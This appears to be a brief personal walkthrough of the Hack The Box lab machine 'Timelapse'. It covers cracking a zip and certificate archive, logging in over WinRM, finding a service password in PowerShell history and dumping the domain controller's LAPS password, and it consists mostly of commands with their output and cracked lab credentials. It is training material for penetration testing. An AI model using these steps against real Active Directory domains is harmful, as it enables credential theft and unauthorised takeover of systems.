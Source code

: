 Timelapse

# Enumeration

# SMB zip crack
$ hashcat -a 0 -m 17200 ./hashcat_hashes.txt /opt/wordlists/crackstation.txt
supremelegacy

# SSL auth
user: legacy

$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt pfx_hashes.txt
thuglegacy

# User
$ evil-winrm -S -c cert.crt -k priv.key -i $URL

$ *Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV

# Root
```bash
$ crackmapexec ldap $URL -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --kdcHost $URL -M laps                                                 kali@kali
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        timelapse.htb   389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        timelapse.htb   389    DC01             [*] Getting LAPS Passwords
LAPS        timelapse.htb   389    DC01             Computer: DC01$                Password: p7o!!Y@B4/a2!vI&,p/+Bq57
```


